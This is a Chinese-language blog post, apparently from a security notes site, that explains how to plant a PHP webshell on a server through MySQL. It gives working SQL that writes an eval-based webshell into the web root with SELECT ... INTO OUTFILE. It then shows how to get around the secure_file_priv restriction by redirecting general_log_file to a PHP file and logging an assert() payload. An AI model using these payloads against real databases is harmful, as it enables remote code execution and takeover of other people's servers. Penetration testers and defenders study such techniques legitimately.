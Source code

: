 ```yaml
---
layout: post
title: MySQL获取Webshell
categories: [安全, MySQL, Webshell]
description: MySQL获取Webshell
keywords: 安全, MySQL, webshell
---
```


## MySQL获取Webshell
### 1.select ... into outfile
在MySQL数据库没有设置导入导出权限的时候，我们可以通过select ... into outfile获取webshell，如果MySQL的运行权限极高，那么我们通过MySQL上传的webshell也会获得相应的权限，甚至可以直接添加管理员账户，步骤一般如下：
1. 查找可读写目录
2. 通过select ... into outfile获取webshell

select ... into outfile有如下几种方式：
```sql
select "<?php @eval($_POST[b]);?>" into outfile "/var/www/html/webshell.php";
```
```sql
create table webshell(a blog);
insert into webshell(a) value("<?php @eval($_POST[b]);?>");
select a from webshell into outfile "/var/www/html/webshell.php";
```
### 2.通过general_log选项获取webshell
1. 直接导出webshell失败
有时候通过select into outfile等方法直接导出webshell会失败，显示错误信息如下：
```sql
The MySQL server is ruuning with the --secure-fie-priv option so it cannot execute this statement
```
意思是Mysql服务器运行"--secure-file-priv选项，所以不能执行这个语句。
2. secure_file_priv选项
在Mysql中使用secure_file_priv配置项来完成对数据导入导出的限制，前面的webshell导出就是如此。在Mysql官方给出了"--secure-file-priv=name limit LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE() to file within specified directory"解释，限制导入导出文件到指定的目录，其具体用法如下：
- 限制mysqld不允许导入导出
```sql
mysqld --secure_file_priv=null
```
- 限制mysqld的导入和导出只能发生在/tmp/目录下
```sql
mysqld --secure_file_priv=/tmp/
```
- 不对mysqld的导入和导出做限制，在/etc/my.cnf文件中不指定值

3. 通过general_log和general_log_file来获取webshell
mysql打开general_log后，所有的查询语句都可以在general_log文件中以可读的方式得到，也就是说，general_log_file会记录所有的查询语句，以原始的状态来显示，如果将general_log开关打开，general_log_file设置为一个php文件，则查询的操作将会全部写入到general_log_file指定的文件中，通过访问general_log_file指定的文件来获取webshell（注意：general_log_file所在目录一定要具备读写权限，同时该目录应该在web服务所能覆盖的范围之内）。整个过程执行步骤如下：
```sql
set global general_log='on';
set global general_log_file='/var/www/html/webshell.php';
select '<?php assert($_POST['pass']);?>';
```
